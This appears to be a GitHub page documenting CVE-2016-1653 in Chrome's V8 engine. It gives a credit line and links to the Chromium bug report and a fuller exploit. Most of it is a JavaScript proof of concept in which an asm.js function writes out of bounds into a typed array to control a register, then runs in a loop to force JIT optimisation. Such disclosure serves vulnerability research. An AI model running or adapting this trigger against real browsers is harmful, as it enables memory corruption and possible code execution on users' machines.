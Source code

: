 # CVE-2016-1653

- Date: Feb 2015
- Credit: Choongwoo Han

## PoC

```javascript
boom=(function(stdlib,foreign,heap){
    "use asm";
    var Uint8ArrayView=new stdlib.Uint8Array(heap);
    var Int32ArrayView=new stdlib.Int32Array(heap);
    function f(i,i1){
        i1=Uint8ArrayView[256];
        // This following value '10' determines the value of 'rax'
        Int32ArrayView[i1>>10] = 0xabcdefaa;
        return(-i1+((Int32ArrayView[((i1))>>2])))}
return f
})(this,0, new ArrayBuffer(256));

for (var i = 0; i < 400; ++i) { // Trigger optimization
    boom(0, 0x1000);
}
```

## Reference

- [Issue](https://bugs.chromium.org/p/chromium/issues/detail?id=589792)
- [Exploit by DaramG](https://github.com/DaramG/Chrome/blob/master/CVE-2016-1653/CVE-2016-1653.html)
